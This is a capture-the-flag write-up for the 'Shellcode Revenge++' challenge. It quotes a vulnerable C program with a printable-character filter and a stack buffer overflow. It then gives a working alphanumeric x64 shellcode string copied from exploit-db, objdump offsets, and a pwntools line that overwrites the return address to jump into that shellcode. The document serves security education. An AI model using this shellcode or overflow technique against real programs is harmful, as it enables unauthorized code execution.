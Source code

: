# Shellcode Revenge++

```C
int main(){
    setvbuf(stdout,0,2,0);
    puts( "Name always contain printable characters, isn't it?" );
    puts( "What'sssssss your name, ONLY contains [ 'a'~'z' 'A'~'Z' '0'~'9' ':' '>' '=' '<' '^' '/' '\\' '_'  ]:");

    len = __read_chk( 0 , name , 97 , 100 );
    if( len <= 0 ){
        puts("read error");
        _exit(1);
    }

    check( len );

    printf( "Hello %s! Leave some messege for me!" , name );
    char buf[0x10];
    read( 0 , buf , 0x20 );

    printf( "You said: %s" , buf );

    return 0;
}
```
Fron the name of this problem, we can know that it is another shellcode promble.

However, there's a `__read_chk` function, which checkes the length of our input, and a `check( len )` to check our shellcode.

```C
void check( len ){
    if( name[len - 1] == '\n' ) name[len - 1] = '\x00';
    int i;
    for( i = 0 ; i < len - 1 ; i++ ){
        if( ( name[i] < '/' || name[i] > '9' ) && 
		( name[i] < 'a' || name[i] > 'z' ) && 
		( name[i] < 'A' || name[i] > 'Z' ) &&  
		( name[i] < ';' || name[i] > '>' ) && 
		name[i] != '^' && name[i] != '_' && name[i] != '\\' ) {
            puts( "Your name contains unprintable characters!, are you hacker? GO AWAY!!!!!" );
            exit(0);
        }
    }
}
```

As what we see above, our shellcode is limited to a range `a ~ z` `A ~ Z` `; ~ >` `^` `_` `\` , which is a ASCII range.

According to what I found, though this problem has shorter solution, this is testeing on a concept of Alphanumeric Shellcode.

Also, this has something to do with encoding shellcode with XORs.

However, I am too lazy to write one and try out the XORs for encoding, I googled one that fits into the length checking.

https://www.exploit-db.com/exploits/35205/

	XXj0TYX45Pk13VX40473At1At1qu1qv1qwHcyt14yH34yhj5XVX1FK1FSH3FOPTj0X40PP4u4NZ4jWSEW18EF0V

This will be our shellcode.

So, what we have to do is just input our shellcode and overwrite the return adress to our shellcode.

From `objdump`, we can see:

	400891:	b9 64 00 00 00       	mov    $0x64,%ecx
	400896:	ba 61 00 00 00       	mov    $0x61,%edx
	40089b:	be c0 10 60 00       	mov    $0x6010c0,%esi
	4008a0:	bf 00 00 00 00       	mov    $0x0,%edi
	4008a5:	b8 00 00 00 00       	mov    $0x0,%eax
	4008aa:	e8 21 fd ff ff       	callq  4005d0 <__read_chk@plt>
	
`read_chk` reads our shellcode to the address `0x6010c0` and our padding:

	4008f9:	48 8d 45 f0          	lea    -0x10(%rbp),%rax
	4008fd:	ba 20 00 00 00       	mov    $0x20,%edx
	400902:	48 89 c6             	mov    %rax,%rsi
 	400905:	bf 00 00 00 00       	mov    $0x0,%edi
 	40090a:	b8 00 00 00 00       	mov    $0x0,%eax
  	40090f:	e8 ec fc ff ff       	callq  400600 <read@plt>

`read` reads our second input to `rbp-0x10`, and thus our padding will be 0x18 bytes.

Finally our payload will be:

```python
p.sendline(b"A"*0x18 + b"\xc0\x10\x60\x00" + b"\x00\x00\x00\x00")
```
